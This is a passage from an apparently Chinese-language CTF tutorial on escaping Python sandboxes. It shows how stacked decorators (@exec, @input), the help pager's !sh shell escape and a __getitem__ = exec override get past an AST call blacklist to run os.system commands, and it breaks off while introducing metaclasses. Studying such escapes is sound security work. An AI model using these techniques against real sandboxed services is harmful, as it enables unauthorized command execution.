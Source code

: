 当我们输入上述的代码后, Python 会打开输入, 此时我们再输入 payload 就可以成功执行命令.

```
>>> @exec
... @input
... class X:
...     pass
... 
<class '__main__.X'>__import__("os").system("ls")
```

由于装饰器不会被解析为调用表达式或语句, 因此可以绕过黑名单, 最终传入的 payload 是由 input 接收的, 因此也不会被拦截.

其实这样的话, 构造其实可以有很多, 比如直接打开 help 函数.

```
@help
class X:
    pass
```

这样可以直接进入帮助文档:

```
Help on class X in module __main__:

class X(builtins.object)
 |  Data descriptors defined here:
 |  
 |  __dict__
 |      dictionary for instance variables (if defined)
 |  
 |  __weakref__
 |      list of weak references to the object (if defined)
(END)
```

再次输入 !sh 即可打开 /bin/sh

#### 函数覆盖[](#函数覆盖)

我们知道在 Python 中获取一个的属性例如 `obj[argument]` 实际上是调用的 `obj.__getitem__` 方法. 因此我们只需要覆盖其 `__getitem__` 方法, 即可在使用 `obj[argument]` 执行代码:

```
>>> class A:
...     __getitem__ = exec
... 
>>> A()['__import__("os").system("ls")']
```

但是这里调用了 A 的构造函数, 因此 AST 中还是会出现 ast.Call. 如何在不执行构造函数的情况下获取类实例呢?

##### metaclass 利用[](#metaclass-利用)

Python 中提供了一种元类 (metaclass) 概念。元类是创建类的“类”。在 Python 中，类本身也是对象，元类就是创建这些类（即类的对象）的类。

元类在 Python 中的作用主要是用来创建类。类是对象的模板，而元类则是类的模板。元类定义了类的行为和属性，就像类定义了对象的行为和属性一样。
